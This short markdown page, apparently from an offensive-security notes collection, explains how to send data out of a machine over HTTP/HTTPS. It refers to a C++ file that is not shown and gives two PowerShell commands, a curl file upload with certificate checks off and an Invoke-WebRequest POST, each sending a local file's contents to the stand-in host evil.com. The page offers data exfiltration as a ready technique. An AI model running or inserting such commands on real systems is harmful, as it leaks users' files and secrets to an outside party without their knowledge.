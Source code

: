 # Send Data via HTTP/HTTPS

## Using C++

See `SendDataViaHTTP.cpp` file.

## Using Commands

- Curl

    ```powershell
    curl -k -F "file=@./data.txt" https://evil.com
    ```

- Invoke-WebRequest (iwr)

    ```powershell
    $content = Get-Content .\data.txt
    iwr -Uri https://evil.com -Method POST -Body $content
    ```